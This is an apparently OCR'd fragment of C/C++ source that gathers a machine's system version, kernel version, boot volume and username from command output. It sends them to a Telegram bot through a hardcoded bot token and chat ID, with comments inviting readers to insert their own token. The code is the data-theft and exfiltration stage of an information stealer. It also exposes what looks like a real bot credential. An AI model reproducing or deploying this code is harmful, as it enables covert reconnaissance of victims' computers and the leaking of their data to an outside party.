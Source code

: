 ```cpp
  // system information
  char systemVersion[BUFFER_SIZE] = {0};
  char kernelVersion[BUFFER_SIZE] = {0};
  char bootVol[BUFFER_SIZE] = {0};
  char username[BUFFER_SIZE] = {0};
  char computerName[BUFFER_SIZE] = {0};

  // get buffer
  while (fgets(buffer, sizeof(buffer), pipe) != NULL) {
    // trim buffer
    trimF(buffer);

    // get system version
    if (strstr(buffer, "System Version:") != NULL) {
      strcpy(systemVersion, buffer + strlen("System Version:") + 7);
    }

    // get kernel version
    if (strstr(buffer, "Kernel Version:") != NULL) {
      strcpy(kernelVersion, buffer + strlen("Kernel Version:") + 7);
    }

    // get boot volume info
    if (strstr(buffer, "Boot Volume:") != NULL) {
      strcpy(bootVol, buffer + strlen("Boot Volume:") + 7);
    }

    // get username
    if (strstr(buffer, "User Name:") != NULL) {
      strcpy(username, buffer + strlen("User Name:") + 7);
    }
  }

  // close
  fclose(pipe);

  // trim all values before sending
  trimF(systemVersion);
  trimF(kernelVersion);
  trimF(bootVol);
  trimF(username);

  // construct the message to be sent to Telegram
  char systemInfo[1024];
  snprintf(systemInfo, sizeof(systemInfo),
           "System Version: %s\nKernel Version: %s\nBoot Volume: %s\nUsername: %s",
           systemVersion, kernelVersion, bootVol, username);

  // Telegram Bot details
  const char* botToken = "7725786727:AAEuylKfQgTg5RBMeXwyk9qKhcV5kULP_po";  // please, replace with your bot token
  const char* chatId = "5547299598";      // replace with your chat ID
  
  // send system information to Telegram
  int result = sendToTgBot(systemInfo, botToken, chatId);

  if (result == 0) {
    printf("system info successfully sent to Telegram\n");
  } else {
    printf("failed to send system info to Telegram\n");
  }

  return 0;
```
